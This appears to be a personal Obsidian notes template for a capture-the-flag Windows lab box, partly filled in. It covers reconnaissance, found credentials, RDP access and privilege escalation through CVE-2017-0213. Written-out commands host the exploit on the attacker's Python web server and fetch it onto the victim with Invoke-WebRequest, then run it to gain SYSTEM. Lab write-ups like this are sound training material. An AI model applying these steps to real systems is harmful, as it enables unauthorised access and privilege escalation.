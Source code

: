 Use this template in Obsidian to register your findings per target.

---
## 🖥️ Target System: `IP/Hostname`


<summary>1. 🧭 Initial Reconnaissance</summary>

- **Tools Used**: 
- **Host Discovery**:
  - Was the host alive? (Yes)
  - Ping Response:
  - No machine does not response to ICMP
- **Port Scan Results**:
  - Open Ports:
  - Service Versions:
  - OS Detection:
- **Notes**:

![[port_scan 3.txt]]

bl

---

<summary>2. 📂 Enumeration</summary>

- **Ports/Services Analyzed**: 
- **Tools Used**: gobuster, wpscan
- **Findings**:
  - Directories found: /retro
  - Enumerated users/accounts:
  - Software versions:
- **Screenshots/Proof**:

![[Pasted image 20250629132035.png]]



---

<summary>3. 🚨 Vulnerability Analysis</summary>

- **Identified Vulnerabilities**:
  - Description:
  - CVE/Exploit DB Ref:
- **Tool(s) Used**: 
- **Proof/Output**:
  - Command results, error messages, etc.

---


<summary>4. 💣 Exploitation</summary>

- **Tool(s) Used**:
- **Exploit/Payload**:
  - Command:
- **Result**:
  - Got Shell? User Access?
	
	- In the site there was an hint for the **==password==**
		- user: wade
		- pass: parzival
	
- **Post-Exploitation Notes**:
  - user.txt - Desktop
- **Proof**:
  - ![[proof-shell.png]]
---

<summary>5. 🪜 Privilege Escalation</summary>

- **Initial Access Level**: regular user
- **Techniques Tried**:
  - xfreerdp3
  - in google searching for winserver 2016 exploits - CVE-2017-0213 - https://github.com/SecWiki/windows-kernel-exploits/tree/master/CVE-2017-0213
  - downloaded file to attacker machine.
	  - created server in file location
		  - python3 -m http.server 8000

![[Pasted image 20250629153010.png]]

			- on victim machine:
				- enter machine via xfreerdp3
					- xfreerdp3 /u:wade /p:parzival /v:10.10.51.176

![[Pasted image 20250629152408.png]]
And get user flag.

						- to be able to get files from attacker machine server used the following command because wget and curl not recognized:
							- Invoke-WebRequest -Uri http://your-server-ip:8000/filename.txt -OutFile filename.txt

![[Pasted image 20250629152437.png]]

								- on victim machine execute file and we are nt authority\system

![[Pasted image 20250629152245.png]]

- **Success Path**:
  - Commands used:
- **Root Access?** Yes
- **Proof**:


![[Pasted image 20250629152553.png]]


---

<summary>6. 🗃️ Post-Exploitation</summary>

- **Files/Flags Accessed**:
- **Sensitive Data Found**:
  - Got root flag

![[Pasted image 20250629152723.png]]


- **Users Compromised**:
		root
- **Persistence (if tested)**:

---

<summary>7. 📓 Lessons Learned</summary>

- **What Worked**: windows CVE, users informatin for password retrievel, 
- **What Didn’t**:
- **To Improve**:

---

<summary>8. 📎 Appendix</summary>

- Screenshot Links:
  - ![[example.png]]
- Full Command Logs:
  - Use code blocks for clarity:
    ```bash
    command here
    output here
    ```
- Exploit Code Used:
  ```python
  # Sample exploit
